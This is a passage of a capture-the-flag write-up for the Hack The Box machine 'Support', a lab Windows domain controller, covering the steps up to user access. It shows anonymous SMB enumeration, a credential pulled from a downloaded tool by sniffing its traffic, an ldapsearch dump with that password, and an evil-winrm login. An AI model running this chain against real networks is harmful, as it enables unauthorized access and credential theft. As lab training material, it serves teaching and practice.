

# Support

## NMAP

* *Rustscan*

```Console
PORT      STATE SERVICE          REASON
53/tcp    open  domain           syn-ack ttl 127
88/tcp    open  kerberos-sec     syn-ack ttl 127
135/tcp   open  msrpc            syn-ack ttl 127
139/tcp   open  netbios-ssn      syn-ack ttl 127
389/tcp   open  ldap             syn-ack ttl 127
445/tcp   open  microsoft-ds     syn-ack ttl 127
464/tcp   open  kpasswd5         syn-ack ttl 127
593/tcp   open  http-rpc-epmap   syn-ack ttl 127
636/tcp   open  ldapssl          syn-ack ttl 127
3268/tcp  open  globalcatLDAP    syn-ack ttl 127
3269/tcp  open  globalcatLDAPssl syn-ack ttl 127
5985/tcp  open  wsman            syn-ack ttl 127
9389/tcp  open  adws             syn-ack ttl 127
49664/tcp open  unknown          syn-ack ttl 127
49668/tcp open  unknown          syn-ack ttl 127
49678/tcp open  unknown          syn-ack ttl 127
49690/tcp open  unknown          syn-ack ttl 127
49707/tcp open  unknown          syn-ack ttl 127

```

* *NMAP*

```Console
PORT      STATE    SERVICE       REASON          VERSION
53/tcp    open     domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open     kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2024-12-12 06:36:58Z)
135/tcp   open     msrpc         syn-ack ttl 127 Microsoft Windows RPC
389/tcp   open     ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp   open     microsoft-ds? syn-ack ttl 127
464/tcp   open     kpasswd5?     syn-ack ttl 127
594/tcp   filtered tpip          no-response
3268/tcp  open     ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp  open     tcpwrapped    syn-ack ttl 127
9389/tcp  open     mc-nmf        syn-ack ttl 127 .NET Message Framing
49664/tcp open     msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## SMB

* *smbclient list shares anonymous*

```bash
$ smbclient -N -L  \\\\$IP\\

Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
NETLOGON        Disk      Logon server share 
support-tools   Disk      support staff tools
SYSVOL          Disk      Logon server share
```

* *crackmapexec spidering folders*

``` bash
$ crackmapexec smb $IP -u rzgami -p "" --spider support-tools --regex .

SMB  10.129.230.181  445 DC   [+] support.htb\rzgami: 
SMB  10.129.230.181  445 DC   [*] Started spidering
SMB  10.129.230.181  445 DC   [*] Spidering .
SMB  10.129.230.181  445 DC   //10.129.230.181/support-tools/. [dir]
SMB  10.129.230.181  445 DC   //10.129.230.181/support-tools/.. [dir]
SMB  10.129.230.181  445 DC   //10.129.230.181/support-tools/7-ZipPortable_21.07.paf.exe                                    
SMB  10.129.230.181  445 DC   //10.129.230.181/support-tools/npp.8.4.1.portable.x64.zip                                     
SMB  10.129.230.181  445 DC   //10.129.230.181/support-tools/putty.exe                                                      
SMB  10.129.230.181  445 DC   //10.129.230.181/support-tools/SysinternalsSuite.zip                                          
SMB  10.129.230.181  445 DC   //10.129.230.181/support-tools/UserInfo.exe.zip                                               
SMB  10.129.230.181  445 DC   //10.129.230.181/support-tools/windirstat1_1_2_setup.exe                                      
SMB  10.129.230.181  445 DC   //10.129.230.181/support-tools/WiresharkPortable64_3.6.5.paf.exe
```

* *Get UserInfo.exe.zip via smbclient*

``` bash
$ smbclient -N  \\\\$IP\\support-tools
> get UserInfo.exe.zip
```

* *Unzip the contents of UserInfo.exe.zip*

``` bash
$ unzip UserInfo.exe.zip

Archive:  UserInfo.exe.zip
  inflating: UserInfo.exe            
  inflating: CommandLineParser.dll   
  inflating: Microsoft.Bcl.AsyncInterfaces.dll  
  inflating: Microsoft.Extensions.DependencyInjection.Abstractions.dll  
  inflating: Microsoft.Extensions.DependencyInjection.dll  
  inflating: Microsoft.Extensions.Logging.Abstractions.dll  
  inflating: System.Buffers.dll      
  inflating: System.Memory.dll       
  inflating: System.Numerics.Vectors.dll  
  inflating: System.Runtime.CompilerServices.Unsafe.dll  
  inflating: System.Threading.Tasks.Extensions.dll  
  inflating: UserInfo.exe.config
```

## Wine - trouble

* To Run the exe we needed wine (Windows emulator for linux)
* which lead me to the following error when I ran the UserInfo.exe using Wine

```bash
$ wine ./UserInfo.exe
0118:err:mscoree:CLRRuntimeInfo_GetRuntimeHost Wine Mono is not installed
```

* Upon some troubleshooting on google for answers this is the instant solution which got me sorted at [askubuntu](https://askubuntu.com/a/992215)

```bash
$ wine ./UserInfo.exe

Usage: UserInfo.exe [options] [commands]

Options:
  -v|--verbose        Verbose output

Commands:
  find                Find a user
  user                Get information about a user
```

## Wireshark

* In order to see which protocol or how the exe is communicating generally we use wireshark along with the following command

```bash
$ wine ./UserInfo.exe user help

Unable to parse command 'user' reason: Required option '-username' not found!

$ wine ./UserInfo.exe user -username support
[-] Exception: No Such Object
```


* The simple credentials from the LDAP authentication are as follows
	`nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz`

## ldapsearch

* we can use ldapsearch for enumerating further

```bash
ldapsearch -H ldap://support.htb -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb" > ldap-enum.txt
```

* looking at info of the user we can find the password disclosed

## User - Own

*  we can use evil-winrm as the winrm port was discovered to be open

```bash
$ evil-winrm -u "support" -p "P@ssword" -i $IP
```